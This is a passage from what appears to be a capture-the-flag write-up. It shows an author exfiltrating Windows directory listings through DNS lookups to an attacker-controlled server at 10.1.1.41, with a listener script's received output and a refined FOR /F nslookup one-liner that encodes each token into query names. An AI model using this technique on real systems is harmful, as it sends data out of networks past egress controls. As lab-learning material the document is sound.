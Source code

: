    *** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E...F.G.H.I.J.K.L.M.N.O.P.Q
    .R.S.T.U.V.W.X.Y.Z: Unspecified error
    DNS request timed out.
        timeout was 2 seconds.
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find A0.BFile(s).C0.Dbytes.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V
    .W.X.Y.Z: No response from server
    DNS request timed out.
        timeout was 2 seconds.
    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find A2.BDir(s).C4,913,123,328.Dbytes.Efree.F.G.H.I.J.K.L.M.N.
    O.P.Q.R.S.T.U.V.W.X.Y.Z: No response from server



Here's what I received at my shell:



    root@kali# ./ethereal_shell.py 
    AVolume.BSerial.CNumber.Dis.EF06E-7663.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
    ADirectory.Bof.CC:Users0xdftest.D.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
    A0.BFile(s).C0.Dbytes.E.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.
    A2.BDir(s).C4,913,123,328.Dbytes.Efree.F.G.H.I.J.K.L.M.N.O.P.Q.R.S.T.U.V.W.X.Y.Z.



There were seven lines in the dir, but only four reached me. I'll look
closer at one of the lines that had an error:



    Server:  UnKnown
    Address:  10.1.1.41

    *** UnKnown can't find A02/25/2019.B07:04.CAM.D<DIR>.E..F.G.H.I.J.K.L.M.N.O.P.Q.
    R.S.T.U.V.W.X.Y.Z: Unspecified error



That would have been this line:



    02/25/2019  07:04 AM    <DIR>                       .



So the token that ended with a `.` led to two in a row, and therefore an
invalid domain. That happened three times.

I can make this somewhat better by putting a letter before and after the
token:



    (FOR /F "tokens=1-26" %a IN ('dir /x') DO ( nsloo
    kup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.
    Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.1.1.41))
